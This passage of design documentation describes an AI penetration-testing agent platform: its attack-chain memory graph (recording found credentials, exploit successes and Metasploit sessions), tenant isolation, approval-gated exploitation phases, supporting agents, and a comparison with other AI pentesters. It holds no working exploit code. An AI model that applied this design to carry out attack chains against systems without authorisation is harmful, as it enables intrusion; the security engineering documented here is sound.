        +string error_message
        +string lesson_learned
        +bool retry_possible
    }

    AttackChain "1" --> "*" ChainStep : HAS_STEP
    ChainStep "1" --> "0..1" ChainStep : NEXT_STEP
    ChainStep "1" --> "*" ChainFinding : PRODUCED
    ChainStep "1" --> "*" ChainFailure : FAILED_WITH
    ChainStep "1" --> "0..1" ChainDecision : LED_TO
    ChainDecision "1" --> "0..1" ChainStep : DECISION_PRECEDED
```

| Node Type | Purpose | Created When |
|-----------|---------|-------------|
| **AttackChain** | Root of an attack chain. Maps 1:1 to a chat session (`chain_id = sessionId`) | `_start_new_objective_node()` via `fire_create_attack_chain()` |
| **ChainStep** | Each tool execution, tool name, arguments, output analysis, success/failure | `_process_tool_output_node()` via `sync_record_step()` |
| **ChainFinding** | Important intelligence discovered during a step, classified by type and severity | After step analysis via `fire_record_finding()` |
| **ChainDecision** | Strategic decision points, phase transitions, strategy changes, user approvals | On user approval/abort via `fire_record_decision()` |
| **ChainFailure** | Structured record of what was tried and why it failed, with lessons learned | When step fails via `fire_record_failure()` |

**Finding Types:** `vulnerability_confirmed`, `credential_found`, `exploit_success`, `access_gained`, `privilege_escalation`, `service_identified`, `exploit_module_found`, `defense_detected`, `configuration_found`, `custom`

**Failure Types:** `exploit_failed`, `authentication_failed`, `connection_failed`, `permission_denied`, `timeout`, `tool_error`, `detection_blocked`, `payload_failed`

### Relationship Taxonomy

**Intra-chain relationships** connect attack chain nodes to each other:

| Relationship | From → To | Purpose |
|-------------|-----------|---------|
| `HAS_STEP` | AttackChain → ChainStep | Links chain root to its first step |
| `NEXT_STEP` | ChainStep → ChainStep | Sequential execution order, the evolutionary link |
| `PRODUCED` | ChainStep → ChainFinding | Step produced this finding |
| `FAILED_WITH` | ChainStep → ChainFailure | Step failed with this failure |
| `LED_TO` | ChainStep → ChainDecision | Step triggered a decision point |
| `DECISION_PRECEDED` | ChainDecision → ChainStep | Decision led to the next step |

**Bridge relationships** connect attack chain nodes **back to the recon graph**:

| Relationship | From → To | Purpose |
|-------------|-----------|---------|
| `CHAIN_TARGETS` | AttackChain → IP / Subdomain / Port / CVE / Domain | The chain's primary target(s) in the recon graph |
| `STEP_TARGETED` | ChainStep → IP / Subdomain / Port | Infrastructure node this step acted on |
| `STEP_EXPLOITED` | ChainStep → CVE | CVE this step attempted to exploit |
| `STEP_IDENTIFIED` | ChainStep → Technology | Technology identified during this step |
| `FOUND_ON` | ChainFinding → IP / Subdomain | Where the finding was discovered |
| `FINDING_RELATES_CVE` | ChainFinding → CVE | CVE related to the finding |
| `CREDENTIAL_FOR` | ChainFinding → Service / Port | Service/port the credential works on |

```mermaid
flowchart LR
    subgraph ReconGraph["Recon Graph (existing)"]
        IP[IP]
        Sub[Subdomain]
        Port[Port]
        CVE[CVE]
        Tech[Technology]
        Service[Service]
    end

    subgraph EvoGraphNodes["EvoGraph (attack chain)"]
        AC[AttackChain]
        CS1[ChainStep 1]
        CS2[ChainStep 2]
        CF[ChainFinding]
        CFL[ChainFailure]
        CD[ChainDecision]
    end

    AC -->|HAS_STEP| CS1
    CS1 -->|NEXT_STEP| CS2
    CS1 -->|PRODUCED| CF
    CS2 -->|FAILED_WITH| CFL
    CS2 -->|LED_TO| CD

    AC -.->|CHAIN_TARGETS| IP
    CS1 -.->|STEP_TARGETED| IP
    CS1 -.->|STEP_EXPLOITED| CVE
    CS2 -.->|STEP_IDENTIFIED| Tech
    CF -.->|FOUND_ON| Sub
    CF -.->|FINDING_RELATES_CVE| CVE

    style ReconGraph fill:#2d2d2d,color:#fff
    style EvoGraphNodes fill:#5a5a5a,color:#fff
```

### Integration with Orchestrator Lifecycle

EvoGraph writes happen at specific points in the orchestrator lifecycle. All writes are **fire-and-forget** (async, non-blocking) except `sync_record_step()` which blocks to ensure the step node exists before findings/failures reference it.

```mermaid
sequenceDiagram
    participant User
    participant Orch as Orchestrator
    participant CG as chain_graph_writer
    participant Neo4j
    participant State as AgentState

    User->>Orch: New message (start objective)
    Orch->>CG: fire_create_attack_chain()
    CG-->>Neo4j: MERGE AttackChain + CHAIN_TARGETS bridges
    Note over CG,Neo4j: Async (fire-and-forget)

    loop Each ReAct iteration
        Orch->>Orch: Think → select tool → execute tool
        Orch->>Orch: Analyze output (OutputAnalysisInline)
        Orch->>State: Append to chain_findings_memory
        Orch->>State: Append to chain_failures_memory (if failed)
        Orch->>CG: sync_record_step()
        CG->>Neo4j: CREATE ChainStep + bridge rels
        Note over CG,Neo4j: Synchronous (blocking)

        opt Finding produced
            Orch->>CG: fire_record_finding()
            CG-->>Neo4j: CREATE ChainFinding + PRODUCED + bridges
        end

        opt Step failed
            Orch->>CG: fire_record_failure()
            CG-->>Neo4j: CREATE ChainFailure + FAILED_WITH
        end

        Note over Orch,State: Next think step reads chain_*_memory, via format_chain_context()
    end

    opt Phase transition
        Orch->>State: Append to chain_decisions_memory
        Orch->>CG: fire_record_decision()
        CG-->>Neo4j: CREATE ChainDecision + LED_TO
    end

    Orch->>CG: fire_update_chain_status()
    CG-->>Neo4j: SET status='completed', final_outcome
```

### Dual Memory Architecture

EvoGraph uses a **dual-recording pattern**: every significant event is written to both in-memory lists (for fast LLM context) and Neo4j (for persistence and cross-session querying). The two systems serve different purposes and never depend on each other at runtime.

```mermaid
flowchart TB
    subgraph Event["Tool Execution Event"]
        EXEC[Output analyzed by LLM]
    end

    subgraph InMemory["Working Memory (AgentState)"]
        FM[chain_findings_memory]
        FAILM[chain_failures_memory]
        DM[chain_decisions_memory]
    end

    subgraph Persistent["Long-Term Memory (Neo4j)"]
        CF[ChainFinding nodes]
        CFL[ChainFailure nodes]
        CD[ChainDecision nodes]
    end

    subgraph Prompt["System Prompt Injection"]
        CC["{chain_context}<br/>format_chain_context()"]
        PC["{prior_chain_history}<br/>format_prior_chains()"]
    end

    EXEC -->|"Append dict (instant)"| FM
    EXEC -->|"Append dict (instant)"| FAILM
    EXEC -->|"fire_record_* (async)"| CF
    EXEC -->|"fire_record_* (async)"| CFL

    FM --> CC
    FAILM --> CC
    DM --> CC

    CF -.->|"query_prior_chains()<br/>(loaded once at session init)"| PC
    CFL -.->|"query_prior_chains()<br/>(loaded once at session init)"| PC

    style InMemory fill:#5a5a5a,color:#fff
    style Persistent fill:#5a5a5a,color:#fff
    style Prompt fill:#424242,color:#fff
```

**Why not query Neo4j for the current session's context?**

| Concern | Impact |
|---------|--------|
| **Race condition** | Graph writes are async. When think iteration N+1 runs, the write from iteration N may not have landed yet |
| **Latency** | A Neo4j query adds ~100-200ms per iteration. Over 15-30 iterations, that's 1.5-6s of added latency |
| **Availability** | If Neo4j is slow or unreachable, the agent cannot think at all |

The in-memory lists are the **fast working memory** for the current session. Neo4j is the **persistent long-term memory** for cross-session queries.

### Exploit Success as ChainFinding

The old standalone `Exploit` node has been replaced by `ChainFinding(finding_type="exploit_success")`. When an exploit succeeds, `fire_record_exploit_success()` creates a ChainFinding with:

- **Metasploit metadata**: module path, payload, session ID
- **Target metadata**: attack type, target IP/port, CVE IDs, credentials
- **Bridge relationships**: `FOUND_ON` → target IP/Subdomain, `FINDING_RELATES_CVE` → CVE
- **Step-level bridges**: `STEP_TARGETED` → IP, `STEP_EXPLOITED` → CVE

This replaces the old `exploit_writer.py` module entirely. The exploit success is now part of the attack chain graph rather than a disconnected standalone node.

### Cross-Session Evolutionary Memory

When a new session starts, the orchestrator calls `query_prior_chains()` which loads up to 5 most recent completed/aborted chains for the same user and project. For each chain:

- **Metadata**: title, objective, status, attack path type, step counts, phases reached
- **High-severity findings**: only critical and high findings (to limit token usage)
- **Failure lessons**: lesson_learned from each ChainFailure

This is formatted by `format_prior_chains()` and injected into the `{prior_chain_history}` placeholder. The agent in session B knows what session A tried, what worked, and what failed, enabling it to **build on prior work rather than repeating mistakes**.

### Semantic Chain Context

The `{chain_context}` placeholder in the system prompt is built by `format_chain_context()` from the three in-memory lists. It replaces the old flat execution trace with a structured, signal-first format:

| Section | Content | Purpose |
|---------|---------|---------|
| **Findings** | `[SEVERITY] title (step N, confidence%)` with evidence, CVEs, IPs sub-lines. Deduplicated by title, sorted by severity (critical first). | Instant signal with full context -- no lost evidence or CVE references |
| **Failed Attempts** | `[step N] failure_type: error_message / Lesson: ...` (truncated to 300 chars) | What to avoid -- lessons from failures |
| **Decisions** | `[step N] decision_type: from -> to (approved/rejected)` | Session trajectory -- strategic turns |
| **Earlier Steps (summary tier)** | One-liner per old iteration: `N [phase]: tool -> analysis[:100]`. Up to 50 iterations shown, with FAILED markers. Iterations beyond 50+20=70 are omitted (findings preserved above). | Prevents total amnesia on long sessions without token explosion |
| **Recent Steps** | Last 20 iterations in full detail (thought, args, analysis, output for last step). Waves collapsed into compact summaries. | Operational context -- what just happened |

**Finding deduplication**: When the LLM re-discovers the same finding (e.g., "Password hash leaked" at step 5 and step 7), duplicates are merged by normalized title. The earliest occurrence is kept, but severity and confidence are upgraded if a later duplicate is stronger.

**Three-tier step display**: Steps are shown with progressive detail based on age:
1. **Omitted** (beyond 70 iterations) -- only a count line, findings still visible in the Findings section
2. **Summary** (up to 50 older iterations) -- one compact line per iteration with tool name and truncated analysis
3. **Recent** (last 20 iterations) -- full detail with thought, args, rationale, analysis, and raw output for the last step

Compared to the old flat trace:

| Aspect | Old Flat Trace | New Chain Context |
|--------|---------------|-------------------|
| **Structure** | Every step formatted identically | Semantic sections + tiered step display |
| **Signal** | LLM must scan ALL steps to find what matters | Key findings at top, severity-sorted, with evidence and CVEs |
| **Failures** | Just a step with `success: false` buried chronologically | Separate section with `lesson_learned` |
| **Decisions** | Phase transitions look like regular steps | Explicit section showing who approved what |
| **Scale** | Grows linearly with step count (30 steps = huge prompt) | Findings/failures/decisions stay concise; summary tier keeps old steps as one-liners |
| **Long sessions** | Steps beyond the window completely vanish | Summary tier preserves 50 older iterations as compact one-liners |
| **Duplicates** | Same finding appears multiple times | Deduplication by title with severity/confidence upgrade |

---

## Security & Multi-Tenancy

This chapter describes *the security boundaries that allow multiple operators on multiple projects to share a single installation of the platform without ever seeing each other's data*. Multi-tenancy is not an afterthought layered on top of a single-user tool, it is woven through every subsystem: state propagation, database access, sandbox isolation, session checkpointing, and phase-based access control. The chapter explains how each of these layers works and where the boundaries are enforced in code.

The two foundational concepts are **tenant context propagation** and **automatic query filtering**. Every incoming request carries a `(user_id, project_id, session_id)` triple that is captured at the request boundary and stored in a Python `ContextVar`. The ContextVar propagates through every async task, including fireteam member tasks, because the value is captured at `asyncio.create_task` time, before the gather. This means that anywhere in the codebase, any function can call `get_tenant_context()` and receive the correct tenant scope without it being passed as an explicit argument. The most consequential use of this is in `Neo4jToolManager`: when the LLM generates a Cypher query via `query_graph`, the manager rewrites the query to inject `WHERE n.user_id = ... AND n.project_id = ...` clauses against every matched node *before* execution. The agent never gets to write that filter itself, so even a deliberately malicious or hallucinated query cannot leak data from another project.

The third layer is **phase-based access control**, which restricts not just *what data* the agent can read but *what actions* it can take depending on which engagement phase is active. The `TOOL_PHASE_MAP` setting maps every tool to the phases in which it is allowed; the `PhaseAwareToolExecutor` enforces this even if the LLM tries to call a tool out of phase. Phase transitions themselves are gated by approval (`REQUIRE_APPROVAL_FOR_EXPLOITATION`, `REQUIRE_APPROVAL_FOR_POST_EXPLOITATION`), the agent cannot escalate from informational to exploitation without an explicit operator approval, which surfaces as the await_approval pause described in the Detailed Workflows chapter. The combination of tenant isolation + automatic query filtering + phase gating is what makes the platform safe to deploy as a shared installation across an entire pentest team or as a managed multi-tenant service.

### Tenant Isolation

```mermaid
flowchart TB
    subgraph Request["Incoming Request"]
        USER["user_id: user123"]
        PROJ["project_id: proj456"]
        SESS["session_id: sess789"]
    end

    subgraph Context["Context Injection"]
        SET_CTX[set_tenant_context<br/>set_phase_context]
        THREAD[Thread-local variables]
    end

    subgraph Neo4j["Neo4j Query Filtering"]
        QUERY[LLM generates Cypher]
        INJECT[Inject tenant filter]
        FILTERED["WHERE n.user_id = 'user123'<br/>AND n.project_id = 'proj456'"]
    end

    subgraph Checkpoint["Session Checkpointing"]
        CONFIG[LangGraph config with thread_id]
        MEMORY[MemorySaver stores state]
        RESUME[Resume from exact state]
    end

    USER --> SET_CTX
    PROJ --> SET_CTX
    SESS --> CONFIG

    SET_CTX --> THREAD
    THREAD --> INJECT
    QUERY --> INJECT --> FILTERED

    CONFIG --> MEMORY
    MEMORY --> RESUME
```

### Phase-Based Access Control

```mermaid
flowchart TB
    subgraph Params["Configuration (project_settings.py)"]
        REQ_EXPL[REQUIRE_APPROVAL_FOR_EXPLOITATION]
        REQ_POST[REQUIRE_APPROVAL_FOR_POST_EXPLOITATION]
        ACT_POST[ACTIVATE_POST_EXPL_PHASE]
        POST_TYPE[POST_EXPL_PHASE_TYPE]
    end

    subgraph Validation["Tool Execution Validation"]
        CHECK_PHASE{Tool allowed<br/>in current phase?}
        ALLOW[Execute tool]
        DENY["Return error:<br/>Tool not available in phase"]
    end

    subgraph Transition["Phase Transition"]
        TO_INFO[To informational]
        TO_EXPL[To exploitation]
        TO_POST[To post_exploitation]
        AUTO_OK[Auto-approve<br/>safe downgrade]
        NEED_APPROVAL[Require user approval]
        BLOCKED[Block if disabled]
    end

    CHECK_PHASE -->|Yes| ALLOW
    CHECK_PHASE -->|No| DENY

    TO_INFO --> AUTO_OK
    TO_EXPL --> |REQ_EXPL=true| NEED_APPROVAL
    TO_EXPL --> |REQ_EXPL=false| AUTO_OK
    TO_POST --> |ACT_POST=false| BLOCKED
    TO_POST --> |REQ_POST=true| NEED_APPROVAL
    TO_POST --> |REQ_POST=false| AUTO_OK
    style CHECK_PHASE fill:#5a5a5a,color:#fff,stroke:#2d2d2d
```

---

## Token Accounting & Cost Tracking

Every LLM call in the agentic pipeline contributes to a per-session token tally that the frontend uses to display cost / budget signals. The accounting is purely observational, there's no enforcement (the iteration budget is the only hard cap).

### State Fields

| Field | Scope | Updated by |
|---|---|---|
| `tokens_used` | session-cumulative total | `think_node` after every LLM call (sum of input + output) |
| `input_tokens_used` | session-cumulative input | `think_node` (read from LLM's `usage_metadata.input_tokens`) |
| `output_tokens_used` | session-cumulative output | `think_node` (read from LLM's `usage_metadata.output_tokens`) |
| `_input_tokens_this_turn` | per-iteration input delta | reset every think; emitted to the UI as a per-step badge |
| `_output_tokens_this_turn` | per-iteration output delta | reset every think |

### Fireteam Members

Each `FireteamMemberState` carries the same four fields independently. `FireteamMemberResult` reports `tokens_used`, `input_tokens_used`, `output_tokens_used` so the parent can roll them up post-wave for display, but the parent's `AgentState.tokens_used` is **not** auto-incremented by member usage, member tokens are reported separately in the wave-completion summary so the operator sees parent vs. fireteam cost split.

### Deep Think Contribution

When a Deep Think pre-step runs, its `usage_metadata` is added to `_dt_in` / `_dt_out` and merged into the same per-turn delta the main think reports. There is no separate "deep_think_tokens" field, Deep Think cost is folded into the iteration that triggered it.

### What's Not Tracked

- LLM cost in dollars (the agent doesn't know per-token rates; the webapp computes that from `OPENAI_MODEL` × token counts)
- Cypher-fix / report-summarizer LLM usage (separate orchestrators, separate accounting)
- Soft-guardrail and classifier LLM calls in `initialize_node` (small, lumped into init)

---

## Knowledge Base Integration

When the agent calls `web_search` (or any retrieval tool), the request is routed through a federated KB-first pipeline: **knowledge base** (curated infosec corpus) → **web search fallback**. Configured per-project via the webapp; defaults inherited from `agentic/kb_config.yaml`.

| Setting | Default | Purpose |
|---|---|---|
| `KB_ENABLED` | inherits yaml | Master switch for KB lookups |
| `KB_SCORE_THRESHOLD` | inherits yaml | Minimum cosine score for a KB hit to be returned |
| `KB_TOP_K` | inherits yaml | How many KB chunks to return per query |
| `KB_FALLBACK_TO_WEB` | `true` | If KB returns zero hits above threshold, fall through to web search |
| `KB_ENABLED_SOURCES` | `null` (all) | Project-wide source allowlist (e.g. only `["mitre", "owasp", "cisa_kev"]`) |
| `KB_MMR_ENABLED` | inherits yaml | Maximal-Marginal-Relevance reranking for diversity |
| `KB_MMR_LAMBDA` | inherits yaml | MMR balance: 1.0 = pure relevance, 0.0 = pure diversity |
| `KB_OVERFETCH_FACTOR` | inherits yaml | How many extra chunks to fetch before MMR truncates |
| `KB_SOURCE_BOOSTS` | inherits yaml | Per-source ranking multipliers (e.g. boost CISA KEV for known-exploited CVEs) |

When `KB_ENABLED=null`, the project inherits the top-level `KB_ENABLED` flag from `agentic/kb_config.yaml`. This lets ops disable KB system-wide for testing without touching every project.

---

## Report Summarizer (Narrative Synthesis)

[agentic/report_summarizer.py](../agentic/report_summarizer.py) is a separate LLM-driven module called by the webapp's report generation route (not by the orchestrator). It converts the structured pentest output (findings, CVEs, exploits, attack chains, target metadata) into professional prose.

### Sections Generated

The module produces 6 distinct narrative sections, each a multi-paragraph block of prose (no markdown bullets, no headings):

| Section | Purpose | Typical length |
|---|---|---|
| `executiveSummary` | C-suite synopsis: what was tested, what was found, what it means | 2-4 paragraphs |
| `scopeNarrative` | What was in scope, what wasn't, RoE summary | 2-3 paragraphs |
| `riskNarrative` | CVSS distribution, CISA KEV entries, threat-intel context | 4-8 paragraphs |
| `findingsNarrative` | Per-finding prose explaining impact and reproduction | 4-12 paragraphs |
| `attackSurfaceNarrative` | Asset inventory: subdomains, ports, services, technologies | 3-6 paragraphs |
| `recommendationsNarrative` | Prioritized remediation plan tied to findings | 4-8 paragraphs |

### Inputs

The summarizer accepts a structured payload assembled by the webapp:

- All `ChainFinding` rows (with bridge edges to CVEs, ports, endpoints)
- All `Exploit` legacy nodes (if present from older sessions)
- The recon graph snapshot (subdomains, IPs, ports, services, technologies)
- CISA KEV match list, EPSS scores
- RoE settings (for the scope narrative)
- Project metadata (client name, contact, engagement window)

### Why Separate from the Orchestrator?

Report generation is post-engagement and asynchronous. The orchestrator's job ends at `task_complete`; the report run can happen hours or days later, against frozen data. Coupling the two would force the orchestrator to keep narrative-prompt baggage live during pentests.

---

## Companion Orchestrators (Cypherfix)

Two sibling orchestrators live alongside the main pentest agent under [agentic/cypherfix_codefix/](../agentic/cypherfix_codefix/) and [agentic/cypherfix_triage/](../agentic/cypherfix_triage/). They share infrastructure (logging, project_settings, key_rotation, websocket transport) but are independent ReAct agents with their own state, prompts, and tool sets.

### Cypherfix Triage

LLM agent that triages findings produced by the pentest run, clusters duplicates, scores severity, drops false positives, and generates remediation handles consumable by the codefix agent. Lives in [agentic/cypherfix_triage/](../agentic/cypherfix_triage/) with its own `orchestrator.py`, `state.py`, `tools.py`, `websocket_handler.py`, and `prompts/`.

### Cypherfix Codefix

LLM agent that **edits source code** to fix identified vulnerabilities. Operates against a GitHub repo via a Claude-Code-style toolkit:

| Tool | Purpose |
|---|---|
| `github_glob` | File pattern matching across the repo |
| `github_grep` | Ripgrep-style search |
| `github_read` | Read file contents |
| `github_edit` | Targeted string replace |
| `github_write` | Full-file write |
| `github_bash` | Sandboxed bash (sequential, see `SEQUENTIAL_TOOLS`) |
| `github_list_dir` | Directory listing |
| `github_symbols` | Extract symbols (functions, classes) from a file |
| `github_find_definition` | Jump-to-definition |
| `github_find_references` | Find all references |
| `github_repo_map` | Project structure overview |

`SEQUENTIAL_TOOLS = {"github_edit", "github_write", "github_bash"}`, these mutating tools never run in parallel even if the LLM emits a plan. Read-only tools (`glob`, `grep`, `read`, `list_dir`, `symbols`, `find_*`, `repo_map`) run concurrently.

Both companion orchestrators reuse [agentic/key_rotation.py](../agentic/key_rotation.py)'s round-robin `KeyRotator` to spread load across a pool of API keys when configured.

### Why Three Orchestrators Instead of One?

- **Different success criteria**: pentest = "find weaknesses", triage = "rank weaknesses", codefix = "patch source". Bundling would force one prompt to do all three.
- **Different state shapes**: pentest carries `target_info` and EvoGraph memory; codefix carries a repo file tree and edit log; triage carries finding clusters. Keeping them separate keeps each `TypedDict` small.
- **Different lifecycles**: pentest runs in real-time during an engagement; triage runs after; codefix runs much later (often by a different operator).

---

## Comparative Benchmark, RedAmon vs. Other AI Pentesters

This chapter is an **impartial, code-verified feature comparison** of RedAmon against the four other open-source AI pentesting agents that meaningfully overlap its scope: **PentAGI**, **PentestGPT**, **Strix**, and **Shannon**. The comparison is structured as a series of capability matrices across 14 architectural dimensions, plus an aggregate scoreboard, plus a per-system "where this leads" summary that is deliberately written without RedAmon-favorable framing. This is a feature inventory, not a marketing piece, RedAmon does not win every dimension and the matrices show exactly where competitors lead.

Every cell in the matrices below was audit-verified against the current `main` branch of each system on **2026-04-19**. The audit rule is strict: a feature is marked present only if it is in code on the main branch, no roadmap items, no documentation claims unsupported by source.

### Methodology

Three rules govern this comparison:

1. **Code over documentation.** A feature is marked "present" only if it is in code on the `main` branch, no roadmap items, no planned features, no claimed-but-unimplemented capabilities. Where a system's README claims a feature that the audit did not find in source, the audit decision wins.
2. **Conservative scoring.** Three states are used: **✅ full** (the feature is implemented and in active use), **⚠️ partial** (present but limited, single-layer, or accessible only with significant configuration work), **❌ absent**. Aggregate scoring assigns ✅ = 1.0, ⚠️ = 0.5, ❌ = 0.
3. **Coverage is not quality.** Two systems with the same ✅ on the same row can implement the feature at very different depths. The matrices are an inventory of *which agentic primitives exist where*, not a quality verdict. Quality and operational outcomes are measured by the empirical harness in the internal benchmark.

### Systems Under Comparison

| System | Language / Stack | Paradigm | License | Audited at |
|---|---|---|---|---|
| **RedAmon** | Python · LangGraph · Postgres · Neo4j | Phase-gated SG-ReAct + bounded fireteam | Proprietary | `master` |
| **PentAGI** | Go · Postgres · pgvector · optional Neo4j | Hierarchical multi-agent (15 `MsgchainType` prompt-driven roles) | Open source | `main` |
| **PentestGPT** | Python · Claude Agent SDK · TUI | Single-agent thin wrapper with 5-state FSM | Open source | `main` (v1.0) |
| **Strix** | Python · litellm · Docker | Dynamic multi-agent graph + skill library | Open source | `main` |
| **Shannon** | TypeScript · Temporal · Claude Agent SDK | Temporal-orchestrated 5-phase pipeline | AGPL-3.0 | `main` (Lite) |

Symbols used in every matrix below: **✅** full · **⚠️** partial · **❌** absent.

### 1. Orchestration & Topology

How the agent or agents are arranged, how they spawn, and how they execute concurrently.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Single-agent control loop | ✅ | ⚠️ | ✅ | ✅ | ✅ |
| Multi-agent hierarchy | ⚠️ | ✅ | ❌ | ✅ | ✅ |
| Dynamic agent spawning at runtime | ❌ | ❌ | ❌ | ✅ | ❌ |
| Bounded parallel fan-out (fireteam / fixed wave) | ✅ | ❌ | ❌ | ❌ | ✅ |
| Thread-based parallelism | ❌ | ❌ | ❌ | ✅ | ❌ |
| `asyncio.gather`-based parallelism | ✅ | ❌ | ❌ | ❌ | ❌ |
| Goroutine-based parallelism | ❌ | ✅ | ❌ | ❌ | ❌ |
| Durable workflow orchestrator (Temporal etc.) | ❌ | ❌ | ❌ | ❌ | ✅ |
| Feature-flagged parallelism toggle | ✅ | ❌ | ❌ | ❌ | ❌ |
| **Subtotal (max 9.0)** | **5.5** | **2.5** | **1.0** | **4.0** | **4.0** |

**What each row in this matrix means.** *Single-agent control loop* asks whether the system has even one classical "think → act → observe" loop, the absolute minimum requirement to call something an agent at all. *Multi-agent hierarchy* asks whether multiple distinct agent roles coexist and can call each other. *Dynamic agent spawning at runtime* is the strongest "emergent topology" marker: a system passes only if a running agent can decide to instantiate a new agent during execution, not just at startup. *Bounded parallel fan-out* is the disciplined alternative, a fixed-shape wave that runs N pre-declared specialists in parallel and merges their results back. The next four rows pin down the *concurrency mechanism* itself: *thread-based* (OS threads), *asyncio.gather-based* (cooperative coroutines on a single event loop), *goroutine-based* (Go's lightweight green threads), and *durable workflow orchestrator* (Temporal-style activities that survive crashes through replay). *Feature-flagged parallelism toggle* identifies systems where parallelism can be switched off per project, collapsing the agent back to a single sequential loop for cost-sensitive engagements.

**What the comparison reveals.** The five systems have made five genuinely different bets on topology. **Strix** bets on emergence, its `agents_graph_actions` literally adds new agent nodes to the graph during execution, letting the agent design its own coordination at runtime. **Shannon** bets on durability, its Temporal-orchestrated pipeline runs each phase as an activity that can replay deterministically after any backend crash. **PentAGI** bets on language-level concurrency, Go goroutines spawned by the flow controller (`pkg/controller/flow.go:55`) carry agent invocations across its 15 `MsgchainType` roles. **RedAmon** bets on bounded predictability, a small, fixed set of parallel patterns (single tool, plan_tools wave, fireteam fan-out) all sit inside a strict LangGraph state machine where every transition is auditable. **PentestGPT** does not bet on concurrency at all; it is a single sequential agent, and it accepts that constraint deliberately to keep its TUI experience clean and its state machine small (5 explicit states). There is no single winner row-by-row, RedAmon and Shannon tie on bounded fan-out, only Strix has dynamic spawning, only Shannon has Temporal durability, only RedAmon has the parallelism toggle. The aggregate (RedAmon 5.5, Shannon 4.0, Strix 4.0, PentAGI 2.5, PentestGPT 1.0) reflects breadth of mechanisms, not a "best topology" verdict.

**Operational implications for the operator.** If the engagement is short (under one hour) and interactive, parallelism barely matters, PentestGPT's simplicity wins by getting out of the operator's way. If the engagement is a multi-objective long-horizon scan where backend failures are expected (cloud preemption, container restart, deploy mid-run), Shannon's Temporal durability is decisive: nothing else can replay an in-flight workflow at activity granularity. If the engagement requires investigating many independent attack angles concurrently *and* every action must be defensible in an audit trail, RedAmon's bounded fireteam is the right shape, N specialists running in parallel, each writing attributed `ChainStep` rows to the persistent attack chain, all under the same guardrail stack. Strix's emergent topology is best suited to research scenarios where the operator wants to study what coordination patterns an agent invents when given freedom. PentAGI's goroutines are an internal implementation detail more than a user-facing differentiator, the operator sees a unified flow, not 15 individual agents.

### 2. Control Flow & State Management

How the agent's execution is structured, paused, and resumed.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Graph-based state machine (LangGraph) | ✅ | ❌ | ❌ | ❌ | ❌ |
| Custom async / event-driven loop | ❌ | ✅ | ⚠️ | ✅ | ⚠️ |
| Explicit FSM states | ⚠️ | ⚠️ | ✅ | ⚠️ | ⚠️ |
| Pub/sub event bus | ⚠️ | ⚠️ | ✅ | ⚠️ | ❌ |
| Phase-gated execution | ✅ | ❌ | ❌ | ❌ | ✅ |
| Pause / resume / instruction injection | ✅ | ⚠️ | ✅ | ⚠️ | ❌ |
| **Subtotal (max 6.0)** | **4.0** | **2.5** | **3.5** | **2.5** | **2.0** |

**What each row in this matrix means.** *Graph-based state machine (LangGraph)* asks whether the agent's flow is described as a formal graph of named nodes connected by labelled edges, the strongest possible structure, because every possible transition is enumerable and auditable. *Custom async / event-driven loop* asks whether the system instead uses an imperative loop where flow is determined by code paths and message routing rather than a declarative graph. *Explicit FSM states* asks whether the agent's lifecycle is defined as a finite set of named states (e.g. IDLE / RUNNING / PAUSED), weaker than a graph but stronger than implicit state. *Pub/sub event bus* asks whether components communicate through published events rather than direct method calls, important for decoupling the UI from the agent core. *Phase-gated execution* asks whether the agent's available actions change depending on which engagement phase it is currently in (informational / exploitation / post-exploitation). *Pause / resume / instruction injection* asks whether the operator can interrupt the running agent at any point, optionally inject new context, and resume cleanly.

**What the comparison reveals.** Only **RedAmon** uses a formal graph-based state machine, its 14-node LangGraph is the strongest control-flow structure in the benchmark. The other four systems all use some form of imperative async loop, but with very different degrees of state discipline. **PentestGPT** is the surprise winner of this category in the operator-experience sense: its tiny but extremely well-designed explicit FSM (`AgentState` enum: IDLE → RUNNING → PAUSED → COMPLETED → ERROR) plus its event-bus (`EventBus` decoupling TUI from agent) is what makes Ctrl+P pause and Ctrl+R resume feel instantaneous. **Shannon's** Temporal workflow gives it phase gating (the 5-phase pipeline is enforced sequentially) but no interactive pause, Temporal workers are ephemeral, so there is no live process to interrupt. **PentAGI's** flow status enum (`created, running, waiting, finished, failed`) explicitly rejects "paused" as invalid; "waiting" exists but only for user-input gates baked into the prompt, not for arbitrary operator interruption. **Strix's** loop is async but state lives implicitly inside the agent graph and the iteration counter, pause is partial at best. The category subtotals (RedAmon 4.0, PentestGPT 3.5, PentAGI 2.5, Strix 2.5, Shannon 2.0) reflect a real spread.

**Operational implications for the operator.** Control-flow structure is the difference between *understandable* agents and *opaque* ones. With RedAmon, an operator with the LangGraph diagram in hand can read the source and predict every transition, there are no hidden side paths. With PentestGPT, the FSM gives the operator a clear mental model of what state the agent is in at any moment ("oh, it's PAUSED, I can resume"). With Shannon, the operator sees the workflow as a Temporal execution and can query its progress externally, but cannot interrupt it without abandoning the run. With PentAGI and Strix, the operator must trust that the imperative loop will reach a defined state, debugging unexpected behaviour requires reading code paths rather than a diagram. For long autonomous engagements where the operator may need to step away and come back, the combination of *graph-based* + *pause/resume* + *phase gating* (RedAmon's profile) is materially safer than any other configuration.

### 3. Task Decomposition

How an objective becomes structured subtasks the agent can act on.

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Explicit todo list with priority | ✅ | ⚠️ | ❌ | ❌ | ❌ |
| Attack-path classification (LLM-driven) | ✅ | ❌ | ❌ | ❌ | ❌ |
| Skill-driven decomposition | ❌ | ❌ | ❌ | ✅ | ❌ |
| Fixed pipeline DAG | ❌ | ❌ | ❌ | ❌ | ✅ |
| Implicit (prompt-only) decomposition | ❌ | ✅ | ✅ | ⚠️ | ⚠️ |
| **Subtotal (max 5.0)** | **2.0** | **1.5** | **1.0** | **1.5** | **1.5** |

